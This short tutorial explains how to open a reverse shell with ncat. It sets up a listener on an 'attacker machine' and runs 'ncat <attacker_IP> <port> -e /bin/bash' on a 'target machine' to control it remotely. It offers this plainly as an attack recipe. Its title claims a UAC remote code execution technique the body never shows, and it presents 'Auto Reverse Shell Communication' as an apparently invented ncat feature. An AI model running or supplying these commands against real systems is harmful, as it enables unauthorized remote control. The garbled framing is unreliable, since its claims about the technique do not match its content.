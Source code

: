 # UAC RCE based on Ncat Auto Reverse Shell Communication
Ncat is a command-line tool that provides a lot of features for network communication. One of its features is Auto Reverse Shell Communication, which allows you to create a reverse shell connection from the target machine to the attacker's machine.

Configuration
To configure Auto Reverse Shell Communication using Ncat, follow these steps:

Set up the listener on the attacker machine. This is done using the following command:

## ncat -nvlp <port_number>

Replace <port_number> with the port number you want to use for the connection.

Set up the reverse shell connection from the target machine to the attacker machine. This is done using the following command:

## ncat <attacker_IP_address> <attacker_port_number> -e /bin/bash

Replace <attacker_IP_address> with the IP address of the attacker machine and <attacker_port_number> with the port number you used in step 1.

The -e /bin/bash option specifies that the shell to be spawned on the target machine is the Bash shell.

Once the connection is established, you can interact with the target machine's shell from the attacker machine's shell.

For example, you can run commands on the target machine by typing them into the attacker machine's shell, and the output will be displayed in the attacker machine's shell.

That's it! You have now configured Ncat Auto Reverse Shell Communication.
